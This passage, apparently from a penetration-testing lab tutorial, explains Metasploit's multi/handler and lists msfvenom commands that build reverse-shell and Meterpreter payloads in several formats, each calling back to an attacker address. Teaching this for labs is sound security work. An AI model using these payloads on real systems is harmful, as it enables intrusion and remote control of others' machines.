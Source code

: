 The reverse_shell.php file should be edited to convert it into a working PHP file. 

We will use Multi Handler to receive the incoming connection. The module can be used with the  `use exploit/multi/handler` command.

Multi handler supports all Metasploit payloads and can be used for Meterpreter as well as regular shells.

To use the module, we will need to set the payload value (`php/reverse_php` in this case), the LHOST, and LPORT values.

Once everything is set, we will run the handler and wait for the incoming connection.

## Other Payloads

Based on the target system's configuration (operating system, install webserver, installed interpreter, etc.), msfvenom can be used to create payloads in almost all formats. Below are a few examples you will often use:

In all these examples, LHOST will be the IP address of your attacking machine, and LPORT will be the port on which your handler will listen.

Linux Executable and Linkable Format (elf)

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`

The .elf format is comparable to the .exe format in Windows. These are executable files for Linux. However, you may still need to make sure they have executable permissions on the target machine. For example, once you have the shell.elf file on your target machine, use the chmod +x shell.elf command to accord executable permissions. Once done, you can run this file by typing ./shell.elf on the target machine command line.

Windows

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`

PHP

`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`

ASP

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`

Python

`msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`

All of the examples above are reverse payloads. This means you will need to have the exploit/multi/handler module listening on your attacking machine to work as a handler. You will need to set up the handler accordingly with the payload, LHOST and LPORT parameters. These values will be the same you have used when creating the msfvenom payload.



